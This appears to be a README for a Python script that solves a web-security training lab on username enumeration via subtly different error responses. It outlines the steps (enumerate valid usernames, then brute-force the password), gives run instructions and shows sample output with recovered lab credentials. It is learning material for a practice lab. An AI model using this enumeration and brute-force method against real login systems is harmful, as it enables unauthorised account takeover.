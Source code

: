 # Hack Steps
1. Obtain a valid username via subtly different error messages
2. Brute force password of that valid username

# Run Script
1. Change the URL of the lab
2. Change the PATH of your username list
3. Change the PATH of your password list
4. Start script
```
~$ python username_enumeration_via_different_resposnes.py
```
# Expected Output
```
[#] Enumerate usernames..
Elapsed: 0 minutes || Failed: 0 || Trying (6/101): adam                                              

✅ Valid user: adam
[#] Brute forcing password..
Elapsed: 0 minutes || Failed: 0 || Trying (74/102): joshua                                            

✅ Login successfully:  username: adam, password: joshua

Finished in: 0 minutes

Results was saved to: results

Failed users count: 0
Failed users: [  ]

Failed passwords count: 0
Failed passwords: [  ]
```

# Want to go faster?
Check the [Rust script](https://github.com/elqal3awii/WebSecurity-Academy-with-Rust/tree/main/Authentication/Username%20enumeration%20via%20subtly%20different%20responses) for this lab in both single-threaded and multi-threaded approaches.

